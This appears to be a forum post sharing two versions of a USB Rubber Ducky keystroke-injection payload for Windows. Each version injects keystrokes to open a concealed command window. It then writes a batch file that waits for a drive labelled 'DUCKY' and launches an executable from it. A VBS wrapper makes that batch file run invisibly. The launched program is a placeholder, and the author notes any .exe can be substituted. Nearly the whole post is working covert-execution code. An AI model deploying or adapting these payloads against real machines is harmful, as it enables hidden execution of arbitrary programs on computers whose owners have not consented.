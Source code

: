 The following is a payload I have been working on that waits until a drive labeled "DUCKY" is mounted. I have used some of midnightsnake's code in this payload. The name of the file that is run can be changed to .exe, I am just having it run a batch for testing purposes. The line that says "STRING START %myd%\myEXE.bat" is the line that executes the executable.

```
REM Author: overwraith
REM Name: RunEXE.txt
REM Purpose: Run an executable file off of the SD card after it mounts. 
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 25
DELAY 3000
GUI R
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') 
do set myd=%%d
ENTER
STRING if Exist %myd% (
ENTER
STRING goto :break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto :while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING START %myd%\HelloWorld.exe
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
STRING EXIT
ENTER
```

The following is the batch file that is run after the "DUCKY" drive has been mounted. Everything is being run invisibly, so you will need to check for the existence of "Message.txt" which will probably be in "C:\Windows\system32".

```
REM Message.txt
echo Hello Wolrd!!!
echo Hello World!!! > Message.txt
```

The encoders now support the repeat command, so should only be a problem if you are using an old encoder. Encoders also now support white space in the duck script, so functions have been separated with white space. 

The following is a newer version of the RunEXE from SD payload which uses googleknowsbest's method for finding the "DUCKY" drive, which is more portable than the previous version's method. This version should work on all current Windows versions. Ex... XP, Vista, and Windows 7. 

```
REM Author: overwraith
REM Name: RunEXE_V2.txt
REM Purpose: Run an executable file off of the SD card after it mounts. Uses googleknowsbest's slightly more portable method to find the "Ducky" drive. 
REM Encoder V2.4
REM Using the run command for a broader OS base. 
DEFAULT_DELAY 75
DELAY 3000
GUI R
DELAY 1000
STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat
STRING :while1
ENTER
STRING for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)
ENTER
STRING if Exist %DUCKYdrive% (
ENTER
STRING goto :break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto :while1
ENTER
STRING :break
ENTER
REM Continue script.
STRING START %DUCKYdrive%\HelloWorld.exe
ENTER
CONTROL z
ENTER

REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER

REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs DuckyWait.bat
ENTER
REM STRING EXIT
REM ENTER
```
